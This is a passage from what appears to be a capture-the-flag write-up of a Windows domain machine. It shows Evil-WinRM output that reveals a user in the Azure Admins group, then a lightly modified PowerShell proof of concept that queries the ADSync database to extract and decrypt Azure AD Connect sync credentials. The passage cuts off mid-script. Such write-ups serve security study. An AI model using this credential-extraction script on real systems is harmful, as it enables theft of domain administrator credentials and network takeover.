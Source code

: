 When checking about the user we got. It reveals he is in the group of `Azure Admins`.

```php
*Evil-WinRM* PS C:\> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 3:40:05 PM
Password expires             Never
Password changeable          1/3/2020 3:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 
User profile                 
Home directory               \\monteverde\users$\mhope
Last logon                   1/18/2020 11:05:46 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users         
The command completed successfully.
```

So I googled about this and found this article

> [https://blog.xpnsec.com/azuread-connect-for-redteam/](https://blog.xpnsec.com/azuread-connect-for-redteam/)

**Azure is a public cloud computing platform. It helps in synchronization of hashes and It encrypt the hashes with a dll called `mcrypt.dll`**


I did some few changes in the script. I added the IP address of the machine as Server here. Inorder to connect the database. So this script uses the same mcrypt.dll to decrypt the hash using the internal commands and gives the password in plain text.

```powershell
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$server=10.10.10.172
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server = $server; Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
```